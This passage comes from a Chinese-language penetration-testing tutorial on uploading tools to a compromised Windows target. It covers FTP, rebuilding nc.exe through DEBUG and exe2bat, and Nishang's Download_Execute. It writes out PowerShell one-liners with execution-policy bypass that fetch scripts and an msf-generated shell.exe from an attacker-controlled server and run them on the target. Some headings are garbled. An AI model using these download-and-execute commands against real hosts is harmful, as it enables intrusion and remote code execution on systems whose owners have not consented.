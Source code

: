 open ：连接指定的 FTP 服务器

cd：进入指定的目录

put/send <本地文件> < 远程目录 >：将目标机器本地文件上传到服务器远程目录 // send 和 put 方法用法都基本相同，但是上传速度 send 却要比 put 快很多

get <远程文件> < 本地目录 >：将 ftp 服务器上的文件下载到本地目标机器中

### ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38yGwmSEfiaiaSGWgbBMM0SWP871ibfec3Bbb0C4CVEMO7m6YTk9v1c6RyibC4dkhKiaJdGKrevNB3rxtA/640?wx_fmt=jpeg)

### 2. 利用 Debug 上传

DEBUG 是一个 DOS 实用程序，是供程序员使用的程序调试工具，可以用它检查内存中任何地方的字节以及修改任何地方的字节。它可以用于逐指令执行某个程序以验证程序运行的正确性，也可以追踪执行过程、比较一个指令执行前后的值以及比较与移动内存中数据的范围，读写文件与磁盘扇区。

我们利用 Debug 向目标主机上传文件的原理就是，先将需要上传的 exe 文件转换为十六进制 hex 的格式，将 hex 的内容复制，再通过 echo 命令将 hex 内容写入到目标主机上的一个文件中，最后利用 debug 将 hex 内容编译成 exe 文件。

接下来，我们将 nc.exe 工具利用 debug 上传至目标主机。

我们使用 kali 中的 exe2bat.exe 工具（位于 / usr/share/windows-binaries 目录下）将二进制的 nc.exe 转换成 16 进制的表示，由于 exe2bat 是 windows 程序，所以在 kali 上我们要用 wine 来执行（linux 是不能运行 window 下的可执行文件的，必须借助于 wine）：

wine exe2bat.exe nc.exe nc.txt

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38yGwmSEfiaiaSGWgbBMM0SWPeVCxhRZJQlQW4LYSFylibcgQQxQAs1YOhwSOvNXuxz7E7jZCRNMPfpg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38yGwmSEfiaiaSGWgbBMM0SWPpypWFl6r49iaUe0ZVtNVCRuiaDpPDw4NDr73k0UjmagR30tPR90mW37Q/640?wx_fmt=jpeg)

### 3. 利用 NIshang 上传

Download_Execute 是 Nishang 中一个下载执行脚本，它在实战中最常用的功能就是下载一个文本文件，然后将其转换为 exe 可执行文件执行。

**第一步**：首先攻击者在本地用 Nishang 中的 exetotext.ps1 脚本将 exe 可执行文件更改为文本文件（这里我们的 exe 为 msf 生成的 shell.exe）

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://39.xxx.xxx.210/nishang/Utility/ExetoText.ps1');ExetoText c:\shell.exe c:\shell.txt"

```

**第二步**：将生成的 shell.txt 放到 vps 上面，然后在目标主机上面用 Download_Execute 脚本下载改 shell.txt，将其转化为 exe 后执行

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://39.xxx.xxx.210/nishang/Execution/Download_Execute.ps1');Download_Execute http://39.xxx.xxx.210/shell.txt

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38yGwmSEfiaiaSGWgbBMM0SWPOFOLmqNysE0W7krPnGicBpq5oA6GmIKicycy3AOIMIQMVp9YwHXvqVDA/640?wx_fmt=jpeg)

4. 利用 bitsadmin 上传 YY6 03.7.6 利用 powershell 上传

bitsadmin 可以用来在 windows 命令行下下载文件。bitsadmin 是 windows 后台智能传输服务的一个工具，windows 的自动更新，补丁之类的下载就是用这个工具来实现的。Windows Server2003 和 XP 是没有 bitsadmin 的，Winc7 及其之后的机器才有。**bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。**
